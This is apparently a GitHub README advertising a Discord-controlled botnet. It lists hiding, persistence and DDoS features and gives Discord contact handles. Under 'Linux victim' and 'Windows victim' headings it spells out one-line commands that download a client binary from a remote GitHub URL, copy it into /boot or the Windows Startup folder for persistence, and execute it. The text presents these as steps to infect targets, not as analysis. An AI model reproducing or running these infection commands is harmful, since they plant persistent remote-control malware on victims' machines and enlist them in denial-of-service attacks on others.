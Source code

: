 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Status
Fixing !info command

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe && copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && WClient.exe
